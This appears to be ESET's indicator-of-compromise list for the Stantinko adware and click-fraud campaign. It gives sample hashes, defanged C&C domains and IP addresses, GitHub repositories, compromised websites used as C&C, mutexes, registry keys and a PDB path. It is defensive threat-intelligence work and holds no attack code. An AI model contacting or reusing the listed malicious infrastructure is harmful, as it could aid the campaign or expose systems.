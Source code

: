 = Stantinko Indicators of Compromise (IOCs)

These IoCs are related to ESET's investigation on Stantinko. The full report
about Stantinko is available at
https://www.welivesecurity.com/wp-content/uploads/2017/07/Stantinko.pdf.

The condensed blog post about Stantinko is available at
https://www.welivesecurity.com/2017/07/20/stantinko-massive-adware-campaign-operating-covertly-since-2012/.

These IoCs are also available in MISP event format:
link:stantinko.misp-event.json[`stantinko.misp-event.json`]

== Samples

.APIHelper.dll

----
84A055D8E4BDF1F140C4DCA3D2D7738027E07115
----

.APIHelper_64.dll

----
BCBC28219D47097FBCE312DA450B84079689A0BF
----

.bhctrl32.exe

----
125CEDE073FC3578C9D4C92A858B92C6D551BB0E
A2956B05909E48F82F6FC9A690A64D4F0B2A61C8
D40CAC5DB9A23B372E606039DCE080BCFB9830CC
FE25D078DFD99091C3EF189567728BD087750FAE
----

.biosysrt.dll

----
3A543E3CFE380AE404759FCCE4B3E25DE52246C9
----

.bstreamsvc.dll

----
1D50CF65D326545B02C3EAEF99FAEAAA5629AE94
C7A04F5A7A09D9674B2CA50EDAD882E050785169
EAE094FDA8D431CB8CDEFC9687C8B4CB1B7E2A22
----

.bstreamsvc_setup.dll

----
B8AA1B3DEC9B4B16B6A4BC274C093EED09E2BC4C
----

.clearcache.dll

----
899A71BAABFCF47F5FE31A651271D038C2619EDF
----

.create_certificate.dll

----
729B6F4D97F76DCE0F474D7D9F5E15FDD01E4998
----

.certificate.dll

----
DB83BE912A25D99F501212FED8FA45672D362E67
----

.d3dadapter.dll

----
11354E648E41529972E6696631E035CF8BF0C537
1817B2B958FE7FCE0D0383B8D304BD55A6FECEB2
1BAF0A6E8C9DDBDFFF825686C2BA7E846FB65AEC
272AECA0B66ED1DEA435059481C8EE7045E44E23
31883581FE416A454A00B223357ECAF6E4353497
31E119C3D252C2AE1C18E554DCF47ED359A67AD2
36E11C5BFA3C05094B3FBBA39697533F63B299DB
52D9D26EF37A3B42A0D68E4383B73FD4D2B10018
56696CA2E4C85541909391E086E7D934601656D8
587659A8AB5617594F8064EF16CAAD082A773C7A
84D9F7F46810B1ADD636B07C4068517AD1B3FD07
8843F69F530A712568567A2D53DA01889FF9ACB9
957C69E52E2A3A16838051598A7B2E5BA3D54836
ACAF69EFC397031A7CA14E8E4B6E2D9E9DE28892
D2770182CE996454AA8EAFA5C96629ACCF05A06A
D6A59F6DD9E39EE26059C43D2E097A823770E161
F9DC53A63D721D0936BE8C04331E341AC2558162
----

.d3dadapter dropper

----
B14AF8814FE0398FFA8F5B0D76141B576E5CCE27
FBDBABC6C3E274B99BDFDAB79E53B29ECCF114EF
----

.fdclient.dll

----
0876F8D54F152B1ABA741004635C53A835007226
51196DD8D364947B17ACFA3EFCFC1AFA86CD44C3
886749473A29B887E8F8A79A7C3FB620D30BCB01
96B3A1FDFE1AA113B7791C15A57CFBBD360CC223
B35DA904E72868361954A27E87521EE4E0FD0AC6
B705F104DE0E8E43DA9AC13BA5F42DD3DA21037B
D06DE631AAA7A7BC1FFFA12054111BEC2A7D838D
----

.FileTour related files

----
06EB77205E4822A4369E9C7B43F4554248DD6FFA
2E9F4C6BD233799AA2AFEC9C440C737AE4114DDE
30139FB0B37472D02FE5ECB62F211CCFE727FD6D
40863793206684A021ABB1E24D524FDDF8410AB6
7167649EB03569C2643BCF2C2F2164EA0D803A8D
8E3D8606ED916152B8F70D5E38026569BB7A20C4
A5C3076F4E38A9E497F120558DB669FDD139E702
D274FD9C8AFC8FB2DAE8E81E4F6CC41592C385DF
----

.ghstore.exe

----
E2F2532632A0ACBC6367716F82F7B62D64B896B5
----

.ihctrl32_setup.dll

----
C9C2D2239C5371DCD6A36AE66380B615578E5B04
----

.ihctrl32.dll

----
032B324368B3854F4EC96BE74E067D146B43F856
0B64F28DD56D4869ED7ECAEA81D0F7E6DCBEFA36
4FD7A5F602E4645EB8F21BAA127EDEB9C76CCB50
728718D1AD01B07FCD31C0A4FA2C975B98DB29F1
742EA38F09FF53626194D8B411E290B09F93EDA4
80C4A4FD10409742C10B4399AD7C31AFEA726A8D
B6CFDA9777EEF218E36A1A082C175CB6121CDB48
BC126956059188E2155113D2F77D5FF632B9D420
CB89F13D6EFBB8EBA87AB3FE3AC92A0AA738AD2D
D00C953FD7D6CB686036BB264D52F38C2CECEA76
F74ED6DFB1719924197459D7E5CFDF00568B86FB
----

.ir16_32.dll

----
8EF4E038E14E2C853DD304DF78C3CF09176ADB65
962AA58834B2D071D3F8C68E893D3FDC2FEE32F3
9F79F982F8EEF45D5A1FC3120C5DEA2D8EC618A0
B85E4652910D413D19718B819736B44133FDB332
C269C83B3D18C01DAF9C296A198323889D339B9F
C9F1232DC368A828F576D6F9E8922C0DF27A33DB
E8D9F9A6BEC99BE13FFDF3D2F5EF74EF634EB508
----

.kbdmai.dll

----
0FA4A2C2F41056E071097BF9DB5312E820E3512A
199DA0C38EB00E495D864D95F078912EEB35639A
5287CE5827FFEEC6957F1F6DC769D25482479EE3
DA4634BD5B96519697D06D9A8F18B735302A65EA
----

.kbdmai dropper

----
526B86CA02CCEAF5D23C467C1D1F81DD0A36E4B9
E79ACFBF8D339507373B892700B27B3B795E424F
----

.KBDMAI_ExtInstaller.dll

----
343E52B0D30775305951252101526EAEDC8A0D01
D212F66683F29B5A88AFE2B6B9450DAE3DD73EB4
----

.npapihelper.dll

----
1ACCD83D48F041FF362C2B8F2DCF96D6F1583168
----

.optsatadc.dll

----
3B2D848030289F8F569C80193DD940FA3AE396C2
4D3A703DB690E975540D6D29CDAB2F75FBBCB61C
ADE31CC1161C06A968B68C15E4CE249AE82BC35D
BE756BA78F52061AE745FC3D01D97300F06F70F6
----

.optsatadc_setup.dll

----
326406A85486418B0DF5878B38A2436F11082411
----

.remote_safe_surfing_flag

----
A9C96E00C1D1B7AAEE01C30719C5068BBE196B20
----

.themctrl.dll

----
03A5849E0DBE89E0727C8C37F4259623C9C131E3
544ED609F59C6FB2C96A566631293109172375F9
6004089B1678104252E02E272443A993106C912B
6B0FC0F7BCF63DB2778634644F5819E6247AD524
6DB4BE7100B317FD9CBC136DC95C4017F6D56612
F09352158B443FA3DB0567EF4147D94D37DBDD09
F3846AEF680EAA1931F75977B2ADD060D2BD3167
----

.udsetup.exe

----
52F44D45563944CF7735BCB6F0C448C3E9F19D04
----

.udservice.exe

----
0A7C1817A49E9C258DF7B3CFC416BC16A8D28C0B
352E05DC607AF2EE7CD3BD3FFCC546D3D29F786E
----

.udservice_dropper

----
0146F1042B360C8080D4D05FF523C3B80AC88069
EF3AFF545C48F658C021DC3E5F574AED50BE726E
----

.vp9core.dll

----
C897A193A13A60CC98AAAD9CB9E18AECB68797DE
FF9181C441AAA9108BC35B45B989B2725AD4BBF9
----

.wbiosrvp.dll

----
420A98F44832C11D4E56037F1F267207830BA03B
8750E5E2647C6A9DAB1E0AE60CC42246DA2186B2
F613948CE8F5358B9940EE22E9FCFC26F171637D
----

.wlanmgr.dll

----
10E2B8A796766A6F83278799BE16B1BF47544F2B
12553394AE9C099D9079DF19F0680CBE5CD780D4
1C8D54F0DB1136FA067F88A0AD8F0A8225854E72
3AF1739A03B3A70705E44049B008DF34290CE3BD
6141110309EF5C08DEC5746DBFB25B6302C6D887
6FAE5E3BB8910FCCF89208E3377C8AAD802D9BF8
7743BCAB7A2D77F83197F31A01C754C73BE46EAA
----

.wsaudio.dll

----
138ADDB8845C5F1999E2CCADB3BB7FC57D8ACCE8
2A9A15ED58CD54142E149DB48511B8FD4EFB1E89
5B54776D3C0085596ED7FF695A90B299B575DAFB
758FE5DF8EDAC61101AF35AA1F4440DBEC617F25
8BBA63FD06FC0948579A0F780EC4C0916F265D29
b84598b0329dde4b93fc32be2abac020f7b1e7d8
----

.Linux/TrojanProxy.Stantinko.A

----
C55918ADC6D2E74809777B306E361EA01A35FC05
----

.wsaudio_setup.dll

----
CD47C020BF420964BE329A3F2BC7FEE83BD2FACE
----

.yasetup.exe

----
D1F774D54BCC176AC33900085B27F62A1732B9B7
----


.get_hdd.dll

----
F90BBF5444F42B383B26350231DFDA002911801A
----

.remove_plugins_installer.dll

----
AD4E55CF03F9C24ABE2C533EE33FACD7C70A2EDA
C9DE95EC81BE649D796C73B5BC90CAC95C5EBBD8
----

.brutplugin.dll

----
5FA986F18BDDA5C6AD4C2F2CF9608752AC797377
----

.facebook_bot.dll

----
D643F426B9FAF032FF5AF7D070D2E5115B3C2E46
----

.radmin.dll

----
BFC7C0383CD87382575543C89E99EB41898F59EB
----

.zaxar.dll

----
C05D2646029DF48E262061DEF69DD8A55BF40F75
----

.search_parser.dll

----
2E726A679D32D6A29ECC7A9215409DEFA3085150
----

.Malicious Browser Extensions

----
The Safe Surfing
Teddy Protection
----

.The Safe Surfing NaCl binaries

----
340622C8D335CDE73EEAA96F461440EDCB7D4C52
43A108A22925282D9AC02B8752EACF796B532C1E
49603FEC4DFA0AC5AF3300039522855920D84530
----

== C&C servers

[option="header"]
.Stantinko's C&C servers
|=====
|Family name | Component |  Domain
|Adstantinko | udsetup.exe | clients1.ultimate-discounter[.]com
|Adstantinko | udsetup.exe | clients2.ultimate-discounter[.]com
|Adstantinko | udsetup.exe | clients3.ultimate-discounter[.]com
|Browser Extension | APIHelper | apihelper[.]org
|Browser Extension | The Safe Surfing | safesurfing[.]me
|Browser Extension | Teddy Protection (Lite) | teddy-protection[.]com
|Browser Extension | Teddy Protection (Lite) | superbear[.]pro
|Browser Extension | Teddy Protection (Lite) | teddysave[.]me
|Browser Extension | Teddy Protection (Lite) | judgebear[.]pro
|Browser Extension Downloader Service | ihctrl32.dll | icloudsrv[.]com
|Browser Extension Downloader Service | ihctrl32.dll | icloudsrv[.]org
|Browser Extension Downloader Service | ihctrl32.dll | icloudsrv[.]info
|Browser Extension Downloader Service | ihctrl32.dll | icloudsrv[.]net
|Browser Extension Downloader Service | themctrl.dll | robothemes[.]net
|Browser Extension Downloader Service | themctrl.dll | tmrobo[.]com
|Browser Extension Downloader Service | themctrl.dll | tmrobo[.]org
|Browser Extension Downloader Service | opsatadc.dll | hdr-group[.]org
|Browser Extension Downloader Service | opsatadc.dll | hdr-group[.]info
|Browser Extension Downloader Service | opsatadc.dll | hdr-group[.]net
|Linux Trojan Proxy | / | 185.28.22[.]22:81
|Linux Trojan Proxy | / | 195.226.218.[.]234:80
|Old Browser Extension Downloader Service | ir16_32.dll | wsslupdate[.]org
|Old Plugin Downloader Service | d3dadapter.dll | d3dupdate[.]com
|Old Plugin Downloader Service | d3dadapter.dll | mserrep[.]org
|Old Plugin Downloader Service | KBDMAI.dll | kbdmai[.]net
|Old Plugin Downloader Service | KBDMAI.dll | wupdateservice[.]us
|Old Plugin Downloader Service | wlanmgr.dll | wadgeotrust[.]com
|Plugin Downloader Service | wsaudio.dll | wsaudio[.]com
|Plugin Downloader Service | wsaudio.dll | wsaudio[.]net
|Plugin Downloader Service | wsaudio.dll | wsaudio[.]org
|Plugin Downloader Service | bstreamsvc.dll | vp9codec[.]com
|Plugin Downloader Service | bstreamsvc.dll | vp9codec[.]net
|Plugin Downloader Service | wbiosrvp.dll | biosysltd[.]com
|Plugin Downloader Service | wbiosrvp.dll | biosysltd[.]org
|PDS Plugin | get_hdd.dll | 185.28.22[.]22
|PDS Plugin | search_parser.dll | hxxp://raw.githubusercontent.com/brenev/collection/master/index
|PDS Plugin | brut_plugin.dll | 185.28.22[.]22
|PDS Plugin | facebook_bot.dll | 185.28.22[.]22
|PDS Plugin | radmin.dll | 93.188.161[.]17:8000
|Stantinko Installer | udservice.exe | update.ultimate-discounter[.]com
|Stantinko Installer | udservice.exe | udiscount[.]net
|Stantinko Installer | udservice.exe | ultimate-discounter[.]org
|Stantinko Installer | udservice.exe | upd-discounter[.]com
|Stantinko Installer | udservice.exe | udiscounter[.]org
|Stantinko Installer | udservice.exe | wannaupdate[.]com
|Stantinko Installer | ghstore.exe | ghosterystore[.]com
|Stantinko Installer | bhctrl32.exe | nvccupdate[.]com
|Stantinko Installer | redisd.exe | rdsbase[.]com
|=====

=== Stantinko GitHub repositories

----
hxxps://www.github.com/brenev/collection
hxxps://www.github.com/svetlanachudinovskih/core
hxxps://www.github.com/alexandra-ivanyan/png
hxxps://www.github.com/romochka-shevchenko-2015/rebranding
hxxps://www.github.com/elina-golubeva/style
hxxps://www.github.com/kurenkov2014/attachments
hxxps://www.github.com/lenusyashparteeva/losed_data
hxxps://www.github.com/varvarakayusova/images
hxxps://www.github.com/anatoly-mescheryakov/icons
hxxps://www.github.com/vlabygina/clipart
hxxps://www.github.com/grishenka-kobzar/promo
hxxps://www.github.com/kabanovmihail/static
hxxps://www.github.com/shapovalovnikolayy/static
hxxps://www.github.com/SaintJson/core
hxxps://www.github.com/umnoffvladislaw/core
----

=== IP Addresses

----
13.58.23[.]11
13.58.249[.]138
18.220.21[.]112
37.97.245[.]128
62.109.0[.]227
80.82.67[.]154
80.87.202[.]246
82.146.59[.]86
85.17.194[.]202
88.99.154[.]39
89.108.124[.]228
91.206.30[.]108
91.206.30[.]109
93.188.161[.]17
95.213.235[.]197
95.46.98[.]12
104.237.4[.]37
107.174.224[.]254
107.181.174[.]28
136.144.141[.]253
144.217.240[.]28
149.56.201[.]76
178.20.157[.]140
178.20.157[.]187
178.20.157[.]189
178.20.157[.]227
178.20.159[.]56
178.20.159[.]77
178.20.159[.]89
185.118.164[.]190
185.125.218[.]74
185.127.24[.]151
185.28.22[.]22	
185.28.22[.]69
185.47.62[.]128
185.48.239[.]11
185.86.76[.]113
195.226.218[.]234
204.155.30[.]72
210.16.101[.]206
217.12.203[.]18
----

=== List of compromised websites with their date of first appearance (Search parser C&C)

----
Jan 21, 2014 | hxxp://www.corsionlinemtpromozione.it/images/banners/b1/index.php
Jan 21, 2014 | hxxp://xn--elprincipenorteo-lub.com.ar/images/banners/b1/index.php
Jan 21, 2014 | hxxp://www.ucguabira.com/images/banners/b1/index.php
Jan 21, 2014 | hxxp://www.unioncasa.org/images/banners/b1/index.php
Jan 21, 2014 | hxxp://localhost/searchparser/index.php
Jan 21, 2014 | hxxp://www.unique7000.org/en/images/banners/b1/index.php
Feb 19, 2014 | hxxp://www.sfcu.com.au/sfcu/images/banners/b1/index.php
Feb 19, 2014 | hxxp://eventsbyexcellence.com/photography/images/banners/b1/index.php
Feb 19, 2014 | hxxp://grupoportusalud.net/images/banners/b1/index.php
Feb 19, 2014 | hxxp://missionlocalenyonspierrelatte.com/images/banners/b1/index.php
Feb 19, 2014 | hxxp://talsma-co.nl/images/banners/b1/index.php
Nov 5, 2014 | hxxp://scorzapesquisa.net/site/images/banners/b1/index.php
Nov 5, 2014 | hxxp://fotopercepcja.pl/images/banners/b1/index.php
Apr 16, 2015 | hxxp://cdvet.ch/images/banners/b1/index.php
Apr 16, 2015 | hxxp://www.menicon.fr/porteurs/images/banners/b1/index.php
Apr 16, 2015 | hxxp://topperclean.nl/images/banners/b1/index.php
Apr 16, 2015 | hxxp://iguabaonline.com.br/quasar/images/banners/b1/index.php
Apr 17, 2015 | hxxp://hlcl.org/joomla15/images/banners/b1/index.php
Apr 27, 2015 | hxxp://www.corsionlinemtpromozione.it/frigocontact/images/banners/b1/index.php
Apr 27, 2015 | hxxp://lucerne.websitewelcome.com/~trinityc/images/banners/b1/index.php
Apr 27, 2015 | hxxp://portal.antreprenor.upb.ro/images/banners/b1/index.php
Apr 27, 2015 | hxxp://gruppo89.org/images/banners/b1/index.php
Apr 27, 2015 | hxxp://79.170.44.132/nn-projects.co.uk/images/banners/b1/index.php
Apr 27, 2015 | hxxp://veterinariostijuana.com/images/banners/b1/index.php
May 30, 2015 | hxxp://xado1.md/images/banners/b1/index.php
Jun 10, 2015 | hxxp://z272081.infobox.ru/images/banners/b1/index.php
Jun 10, 2015 | hxxp://oyqrznx.wwwhl.ru/2014/images/banners/b1/index.php
Jun 23, 2015 | hxxp://bernadettejansen.nl/site/images/banners/b1/index.php
Jun 23, 2015 | hxxp://srpskicetnickipokret.org/scp/images/banners/b1/index.php
Jun 23, 2015 | hxxp://blau-weiss-grenzenlos.de/images/banners/b1/index.php
Aug 5, 2015 | hxxp://liceosilvestri.it/cms/images/banners/b1/index.php
Aug 10, 2015 | hxxp://esportesnovasoure.com.br/images/banners/b1/index.php
Aug 10, 2015 | hxxp://hotel-idol.com/tr/images/banners/b1/index.php
Aug 24, 2015 | hxxp://wiewiese.bauernhof-urlaub.or.at/images/banners/b1/index.php
Aug 24, 2015 | hxxp://www.swrs-weinsberg.de/images/banners/b1/index.php
Aug 27, 2015 | hxxp://hohnstorf-basketball.de/alt/images/banners/b1/index.php
Nov 26, 2015 | hxxp://www.ismailagenturen.com/images/banners/b1/index.php
Nov 26, 2015 | hxxp://judoclub2haine.be/images/banners/b1/index.php
Nov 26, 2015 | hxxp://moradiaecidadania.org.br/images/banners/b1/index.php
Nov 26, 2015 | hxxp://romsee-stavelot-romsee.be/images/banners/b1/index.php
Nov 26, 2015 | hxxp://parafia-srokowo.pl/images/banners/b1/index.php
Dec 4, 2015 | hxxp://soymocano54.com/images/banners/b1/index.php
Dec 4, 2015 | hxxp://sleepatastridlindgrensworld.se/images/banners/b1/index.php
Dec 4, 2015 | hxxp://antalyainsaatdergisi.com/images/banners/b1/index.php
Dec 4, 2015 | hxxp://www2.karate-st-georgen.at/images/banners/b1/index.php
Feb 23, 2016 | hxxp://ns2.huespedvirtualserver.com/images/banners/b1/index.php
Feb 24, 2016 | hxxp://www.uvdr-vg.hr/images/banners/b1/index.php
Feb 24, 2016 | hxxp://jason.shigadigsample.com/images/banners/b1/index.php
Feb 24, 2016 | hxxp://informatikundgesellschaft.de/joomla/images/banners/b1/index.php
Apr 20, 2016 | hxxp://scuolasanfrancescodassisi.net/images/banners/b1/index.php
Apr 20, 2016 | hxxp://gesund-bewegen.ch/cms/images/banners/b1/index.php
Apr 20, 2016 | hxxp://quali-kleen.com/taste/images/banners/b1/index.php
Apr 20, 2016 | hxxp://kevin-drieschner.de/feuerwehr_cms/images/banners/b1/index.php
Apr 20, 2016 | hxxp://sv-limbach.de/images/banners/b1/index.php
Apr 20, 2016 | hxxp://wittmund-restaurant-residenz.de/images/banners/b1/index.php
Apr 20, 2016 | hxxp://old.novedvory.eu/dokumenty/banners/b1/index.php
Apr 20, 2016 | hxxp://www.parkbetreuung-margareten.at/cms/images/banners/b1/index.php
Apr 20, 2016 | hxxp://www.lambertrentals.com/portal/images/banners/b1/index.php
Apr 20, 2016 | hxxp://www.goldundpartner.at/images/banners/b1/index.php
Apr 20, 2016 | hxxp://egypttoursgate.com/family-holidays-luxury-vacations/images/banners/b1/index.php
Apr 20, 2016 | hxxp://pepijnenvalerie.nl/joomla/images/banners/b1/index.php
Apr 20, 2016 | hxxp://kmz-buchen.de/joomla/images/banners/b1/index.php
May 25, 2016 | hxxp://mobilhome.montourey.free.fr/images/banners/b1/index.php
Jun 23, 2016 | hxxp://sailbajaadventures.com/images/banners/b1/index.php
Jun 23, 2016 | hxxp://weddingsbeautiful.com.mx/weddings/images/banners/b1/index.php
Jul 1, 2016 | hxxp://s17drohobych.freehostia.com/images/banners/b1/index.php
Jul 1, 2016 | hxxp://zharyk.com.kz/rus/images/banners/b1/index.php
Jul 4, 2016 | hxxp://otmetka5ballov.ru/images/banners/b1/index.php
Jul 18, 2016 | hxxp://parafia-srokowo.pcspace.pl/images/banners/b1/index.php
Jul 18, 2016 | hxxp://www.florestal.gov.br/pngf/images/banners/b1/index.php
Jul 18, 2016 | hxxp://multfestas.com.br/2013/images/banners/b1/index.php
Jul 31, 2016 | hxxp://asti.bplaced.net/images/banners/b1/index.php
Aug 4, 2016 | hxxp://yorkshire-chimneys.co.uk/images/banners/b1/index.php
Aug 4, 2016 | hxxp://regionarequipa.gob.pe/dependencias/grcet/images/banners/b1/index.php
Aug 4, 2016 | hxxp://pescarafclive.altervista.org/images/banners/b1/index.php
Aug 4, 2016 | hxxp://www.powisstreetdentalpractice.com/images/banners/b1/index.php
Aug 4, 2016 | hxxp://mytrade-agriculture.com/images/banners/b1/index.php
Aug 4, 2016 | hxxp://alexincerti.xoom.it/images/banners/b1/index.php
Aug 9, 2016 | hxxp://zarin-daneh.com/images/banners/b1/index.php
Aug 23, 2016 | hxxp://explora.ulagos.cl/cienciaviva/images/banners/b1/index.php
Aug 26, 2016 | hxxp://d2062745.instant.xoom.it/siteapps/66587/htdocs/images/banners/b1/index.php
Aug 26, 2016 | hxxp://waldwichtel-haemelerwald.de/images/banners/b1/index.php
Sep 2, 2016 | hxxp://royerodistrilab.com/nelsonroyero/images/banners/b1/index.php
Sep 12, 2016 | hxxp://152.74.9.14/UNITEP/images/banners/b1/index.php
Sep 12, 2016 | hxxp://vinculacion.coparmexcoahuila.org.mx/images/banners/b1/index.php
Sep 12, 2016 | hxxp://kreds19-frederikshavn.dk/images/banners/b1/index.php
Sep 12, 2016 | hxxp://mult.chandra.ac.th/cw/ge/images/banners/b1/index.php
Sep 13, 2016 | hxxp://m2mobili.com/images/banners/b1/index.php
Sep 13, 2016 | hxxp://rha93.free.fr/images/banners/b1/index.php
Sep 16, 2016 | hxxp://l2campus.com/images/banners/b1/index.php
Oct 5, 2016 | hxxp://codigosurbanos.com/v4/images/banners/b1/index.php
Oct 6, 2016 | hxxp://codigosurbanos.com/v4/images/banners/b1/index_n.php
Oct 6, 2016 | hxxp://feuerwehr-hartenstein.de/images/banners/b1/index.php
Oct 7, 2016 | hxxp://st-johannesstift.de/images/banners/b1/index.php
Oct 7, 2016 | hxxp://scrisoaredelamosul.ro/santa/images/banners/b1/index.php
Oct 7, 2016 | hxxp://oneshote.com/Site/joomla/images/banners/b1/index.php
Oct 13, 2016 | hxxp://conceptosgrupocreativo.com/visionamosSalud/images/banners/b1/index.php
Oct 14, 2016 | hxxp://www.tangosex.it/images/banners/b1/index.php
Oct 17, 2016 | hxxp://smksoretulungagung.sch.id/images/banners/b1/index.php
Oct 19, 2016 | hxxp://shapinglivesconference.com/images/banners/b1/index.php
Oct 19, 2016 | hxxp://vn-net29.homedns.org/fewo-primbs/images/banners/b1/index.php
Oct 20, 2016 | hxxp://hinanumbufoundationgh.org/images/banners/b1/index.php
Oct 20, 2016 | hxxp://dorazio.altervista.org/images/banners/b1/index.php
Oct 20, 2016 | hxxp://k3bweb78.altervista.org/images/banners/b1/index.php
Oct 20, 2016 | hxxp://pepekswiata.com.pl/starealejare/images/banners/b1/index.php
Oct 20, 2016 | hxxp://www.chantalligraphics.com/health101.old/images/banners/b1/index.php
Oct 20, 2016 | hxxp://banchio.com/pendientes/images/banners/b1/index.php
Oct 20, 2016 | hxxp://southswimming.com/content/images/banners/b1/index.php
Oct 20, 2016 | hxxp://edomerlomat.altervista.org/images/banners/b1/index.php
Oct 24, 2016 | hxxp://roanokecares.com/images/banners/b1/index.php
Oct 24, 2016 | hxxp://cadexchuquisaca.org.bo/images/banners/b1/index.php
Oct 25, 2016 | hxxp://laboratoriochimicoveneto.it/lcv/images/banners/b1/index.php
Oct 25, 2016 | hxxp://142-4-18-114.unifiedlayer.com/images/banners/b1/index.php
Oct 25, 2016 | hxxp://bobonana.com/familien/images/banners/b1/index.php
Oct 26, 2016 | hxxp://panaderiasantalibrada.com/main/images/banners/b1/index.php
Oct 26, 2016 | hxxp://notre370z.com/images/banners/b1/index.php
Oct 26, 2016 | hxxp://barangayugong.com/images/banners/b1/index.php
Nov 3, 2016 | hxxp://alkiviadistours.gr/tour/images/banners/b1/index.php
Nov 8, 2016 | hxxp://syl-diavitikon-nthess.gr/images/banners/b1/index.php
Nov 8, 2016 | hxxp://lksavvas.gr/images/banners/b1/index.php
Nov 9, 2016 | hxxp://tagaras.gr/images/banners/b1/index.php
Nov 9, 2016 | hxxp://debian.itbiz.gr/enoria_kastaneris/images/banners/b1/index.php
Nov 9, 2016 | hxxp://energymix.xp3.biz/joomla/images/banners/b1/index.php
Nov 10, 2016 | hxxp://archiv.nezavisli-zruc.cz/images/banners/b1/index.php
Dec 1, 2016 | hxxp://kapatex.iluze.com/images/banners/b1/index.php
Dec 15, 2016 | hxxp://derecskeikutyaiskola.hu/images/banners/b1/index.php
Dec 15, 2016 | hxxp://alhwaidi4hybrid.com/ar/images/banners/b1/index.php
Dec 15, 2016 | hxxp://mst.etravelsystem.com/eztproperty/images/banners/b1/index.php
Dec 15, 2016 | hxxp://alzwea.com/itech-iraq.com/images/banners/b1/index.php
Dec 20, 2016 | hxxp://zawodnicy.baseball.pl/images/banners/b1/index.php
Dec 21, 2016 | hxxp://intranet2.marne.chambagri.fr/joomla/images/banners/b1/index.php
Dec 21, 2016 | hxxp://www.daydream-lab.com/flsh/main/images/banners/b1/index.php
Dec 21, 2016 | hxxp://rouken.sakura.ne.jp/fittest/images/mod.php
Dec 21, 2016 | hxxp://rouken.sakura.ne.jp/fittest/images/banners/b1/index.php
Dec 21, 2016 | hxxp://asandoosh.com/images/banners/b1/index.php
Dec 21, 2016 | hxxp://smabugisiah.edu.my/images/banners/b1/index.php
Dec 26, 2016 | hxxp://alhayat-aljadedah.com/images/banners/b1/index.php
Dec 26, 2016 | hxxp://leadershipacademy.ps/english/images/banners/b1/index.php
Dec 26, 2016 | hxxp://www.agencija-jajce.ba/arabic/images/banners/b1/index.php
Dec 26, 2016 | hxxp://vanocnidarky.provsechny.net/images/banners/b1/index.php
Dec 26, 2016 | hxxp://millerjw.com/czechpoint/images/banners/b1/index.php
Dec 26, 2016 | hxxp://edomerlomat.altervista.org/images/banners/b1/index.php
Dec 26, 2016 | hxxp://krystiank.home.pl/autoinstalator/joomla15/images/banners/b1/index.php
Dec 27, 2016 | hxxp://tommasobocchetti.it/images/banners/b1/index.php
Jan 30, 2017 | hxxp://vmedia.mk/GinekomedikaCalculators/images/banners/b1/index.php
Jan 30, 2017 | hxxp://xn----7sbpbmda7aknrei7dwb9f.xn--p1ai/images/banners/b1/index.php
Jan 30, 2017 | hxxp://vehicleteams.scripts.mit.edu/home/images/banners/b1/index.php
Jan 30, 2017 | hxxp://dvz.ppi.net.ua/images/banners/b1/index.php
Jan 31, 2017 | hxxp://irina-petrenko.by/images/banners/b1/index.php
Jan 31, 2017 | hxxp://usreturns.com/images/banners/b1/index.php
Jan 31, 2017 | hxxp://wolnywww.instytutslowacki.pl/images/banners/b1/index.php
Jan 31, 2017 | hxxp://www.kalamari-notes.gr/joomla/images/banners/b1/index.php
Jan 31, 2017 | hxxp://bukaeva.lg.ua/images/banners/b1/index.php
Jan 31, 2017 | hxxp://xier.avalon.biz.ua/images/banners/b1/index.php
Feb 15, 2017 | hxxp://xray.bmc.uu.se/spb/images/banners/b1/index.php
Feb 15, 2017 | hxxp://aupair-germany.eu/inhalt/images/banners/b1/index.php
Feb 15, 2017 | hxxp://vicaweb.talentoshow.com/Joomla/images/banners/b1/index.php
Feb 16, 2017 | hxxp://yik.edu.my/sekolah/mspp/images/banners/b1/index.php
Feb 16, 2017 | hxxp://treningmentalny.home.pl/m_dddd/images/banners/b1/index.php
Mar 16, 2017 | hxxp://the-dreamweaver.net/portal/images/banners/b1/index.php
Mar 16, 2017 | hxxp://eki.szie.hu/erasmusip/images/banners/b1/index.php
Mar 16, 2017 | hxxp://erasmus.sp9.slupsk.pl/images/banners/b1/index.php
Apr 3, 2017 | hxxp://sceptretoursandtravel.com/images/banners/b1/index.php
Apr 25, 2017 | hxxp://alcaldiadematurin.gob.ve/portal3/images/banners/b1/index.php
Apr 25, 2017 | hxxp://thegamerszone-mgc.com/images/banners/b1/index.php
May 8, 2017 | hxxp://banueventsolutions.com/images/banners/b1/index.php
May 23, 2017 | hxxp://kryonschule-ahaus.de/images/banners/b1/index.php
May 23, 2017 | hxxp://aklcosmetics.com.au/images/banners/b1/index.php
May 24, 2017 | hxxp://lotto4phone.altervista.org/images/banners/b1/index.php
May 25, 2017 | hxxp://tim-johnson.com/images/banners/b1/index.php
May 25, 2017 | hxxp://scrapbook-stickers.com/images/banners/b1/index.php
May 26, 2017 | hxxp://doscerodesign.com/hele/images/banners/b1/index.php
----

=== FileTour click-fraud doorway websites

----
hxxp://good-journal.net
hxxp://nano-news.info
hxxp://newssocial.org
hxxp://news-true.net
----

=== FileTour click-fraud bitly redirections

----
hxxps://bitly.com/2mfUhWn2
hxxps://bitly.com/2lzYhUo
----

== Windows Artifacts

=== Mutexes

----
Global\BitStreamSvc
Global\D3DAdapter_ServiceEvent
Global\Intel_hctrl32
Global\KBDMAIServiceEvent
Global\Kbdmai_ServiceEvent
Global\OptimizeSataDevices
Global\ServiceLibEvent
Global\ThemeControl
Global\WBiosrvp
Global\Wlan_Manager_Initialize
Global\Wsaudio_Initialize
----

=== Windows Registry keys

----
HKLM\SYSTEM\CurrentControlSet\Services\BitStreamSvc\
HKLM\SYSTEM\CurrentControlSet\services\Bonjoiur Host Controller\
HKLM\SYSTEM\CurrentControlSet\services\Coupons Browser Update Service\
HKLM\SYSTEM\CurrentControlSet\services\d3dadapter\
HKLM\SYSTEM\CurrentControlSet\Services\Ghostery Storage Server\
HKLM\SYSTEM\CurrentControlSet\services\ihctrl32\
HKLM\SYSTEM\CurrentControlSet\services\ir16_32\
HKLM\SYSTEM\CurrentControlSet\services\KBDMAI\
HKLM\SYSTEM\CurrentControlSet\Services\optsatadc\
HKLM\SYSTEM\CurrentControlSet\services\themctrl\
HKLM\SYSTEM\CurrentControlSet\Services\wbiosrvp\
HKLM\SYSTEM\CurrentControlSet\Services\wlanmgr\
HKLM\SYSTEM\CurrentControlSet\Services\wsaudio\
HKLM\SOFTWARE\Classes\[0-9A-F]{4}.FieldListCtrl.1\
HKLM\SOFTWARE\Classes\[0-9A-F]{4}.CoreClass.2\
----

=== PDB Paths

----
D:\work\brut\cms\facebook\facebookbot\Release\facebookbot.pdb
